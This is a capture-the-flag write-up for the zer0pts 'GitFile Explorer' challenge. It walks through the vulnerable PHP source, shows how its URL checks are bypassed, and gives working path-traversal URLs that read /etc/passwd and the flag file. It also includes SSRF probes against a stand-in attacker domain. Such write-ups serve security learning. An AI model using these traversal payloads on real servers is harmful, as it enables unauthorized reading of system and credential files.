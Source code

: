 # GitFile Explorer

The description of the challenge says that *Read /flag.txt on the server.*

Challenge site: http://gitfile.ctf.zer0pts.com:8001/

![image](https://user-images.githubusercontent.com/31372554/159201070-6ff830dd-c0b1-4cf1-b3d2-7a80ef33f80f.png)


It looks like a simple website which allows us to *download files on GitHub/GitLab/BitBucket*

Upon clicking on the Download button, a request to  this url is made https://raw.githubusercontent.com/ptr-yudai/ptrlib/master/README.md and the response of the url is shown in the textarea.

![image](https://user-images.githubusercontent.com/31372554/159201096-4ba15386-1104-47d6-ab77-3a67e98c2b83.png)


We now have  a basic understanding of the website , let see what we can do here to read the `/flag.txt` file.

This url  is in the address bar, when we click on the *Download* button:

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

SSRF might be possible here as it is taking an url as an input and giving us back the response of the requested url.
So I changed the `service` parameter value to a domain which I have control over eg: https://en516mcx269todj.m.pipedream.net


-----------------



http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fen516mcx269todj.m.pipedream.net&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

Upon visiting the above url, the application threw an error: 

```html
<b>Deprecated</b>:  preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in <b>/var/www/html/index.php</b> on line <b>29</b><br />

```



The `preg_match` function is used for pattern matching, so there might be a check in place to validate the `service` parameter values either matches to Github/Gitlab/Bitbucket domain or not.

Then I changed the `service` parameter value to raw.githubusercontent.com.attacker.com

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com.attacker.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

And this time a different error was shown:

```html
<b>Warning</b>:  file_get_contents(): SSL operation failed with code 1. OpenSSL Error messages:
error:1416F086:SSL routines:tls_process_server_certificate:certificate verify failed in <b>/var/www/html/index.php</b> on line <b>30</b><br />
<br />
<b>Warning</b>:  file_get_contents(): Failed to enable crypto in <b>/var/www/html/index.php</b> on line <b>30</b><br />
<br />
<b>Warning</b>:  file_get_contents(https://raw.githubusercontent.com.attacker.com/ptr-yudai/ptrlib/master/README.md): Failed to open stream: operation failed in <b>/var/www/html/index.php</b> on line <b>30</b><br />

```

From this verbose error, it is clear that our input url was successfully passed to `file_get_contents` this time, this tells us that the url validation check is very weak.

-----------------------

**Looking into the source code:**


```php
<?php
function h($s) { return htmlspecialchars($s); }
function craft_url($service, $owner, $repo, $branch, $file) {
    if (strpos($service, "github") !== false) {
        /* GitHub URL */
        return $service."/".$owner."/".$repo."/".$branch."/".$file;

    } else if (strpos($service, "gitlab") !== false) {
        /* GitLab URL */
        return $service."/".$owner."/".$repo."/-/raw/".$branch."/".$file;

    } else if (strpos($service, "bitbucket") !== false) {
        /* BitBucket URL */
        return $service."/".$owner."/".$repo."/raw/".$branch."/".$file;

    }

    return null;
}

$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];

if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
?>
```

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

The `craft_url` function creates the final url which will be used later on by combining all the parameter values.It also checks the `service` parameter using `strpos` function, to see if it's contains the word github/gitlab/bitbucket 

Now this why when we put the following host in the `service` parameter raw.githubusercontent.com.attacker.com , it worked.

The returned url from `craft_url` is then stored in variable `$url`, which is again validated using `preg_match` with a regex check.

--------------


```php
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https://github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//xyz?github");
1
```

Ok we can easily bypass the check now.
Btw did you noticed the final url `https//xyz?github` , the colon is missing here after the protocol part.

If we try to pass this url to `file_get_contents` function you will get below error:

```php
php > echo file_get_contents('https//xyz?github');
PHP Warning:  file_get_contents(https//xyz?github): failed to open stream: No such file or directory in php shell code on line 1
```


*No such file or directory* ahh nice. So php treats https//xyz?github as a local filen/directory right?



Let's check what happens if we put the missing colon , will we get the same error:

```php
php > echo file_get_contents('https://xyz?github');
PHP Warning:  file_get_contents(): php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
PHP Warning:  file_get_contents(https://xyz?github): failed to open stream: php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
```

Naaaah! not the same result. This is treated as an url only.




What if we traverse back and try to read `/etc/passwd` ,spolier alert it works :)

```php
php > echo file_get_contents('https//xyz?github/../../../../etc/passwd');
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```

I saw something similar in a recently shared ctf challenge writeup  (don't remember where but), so I knew what I can read files now.

At first I was trying to solve the challenge like this:
http://gitfile.ctf.zer0pts.com:8001/?service=https//xyz?github/../../../../etc/passwd&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

But it didn't worked as the final url was : `https//xyz?github/../../../../etc/passwd/ptr-yudai/ptrlib/master/README.md` , this file/dir didn't existed.

I was focused on the `service` parameter only so I was trying to find a way to ignore rest of the path after `/etc/passwd`.But that didn't work.

```php
file_get_contents('https//xyz?github/../../../../etc/passwd<Somestring>which ignores everything after this')
```

Then after a break, I realized I just need to change the `file` parameter value to something like: `../../../../../flag.txt`

And after playing around a bit, I was able to read the flag:
Final url
http://gitfile.ctf.zer0pts.com:8001/?service=https//../../../%2523github&owner=ptr-yudai&repo=ptrlib&branch=master&file=../../../../../flag.txt


`zer0pts{foo/bar/../../../../../directory/traversal}`